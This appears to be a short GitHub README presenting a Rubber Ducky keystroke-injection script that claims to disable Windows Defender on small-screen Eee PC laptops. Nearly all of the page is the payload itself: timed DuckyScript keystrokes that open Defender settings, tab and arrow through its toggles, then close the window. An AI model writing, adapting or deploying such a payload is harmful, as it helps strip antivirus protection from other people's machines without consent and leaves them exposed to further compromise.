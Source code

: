 # Rubber-Ducky-Script-Disable-Windows-Defender-on-Eee-Pc

A simple Script for Rubber Ducky to disable windows defender on small screen laptops


Payload:


DELAY 1000
<br>
CONTROL ESCAPE
<br>
DELAY 1000
<br>
STRING windows defender settings
<br>
DELAY 1000
<br>
ENTER
<br>
REM here start the windows defender menù
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
REM close the menu
<br>
DELAY 1000
<br>
ALT F4


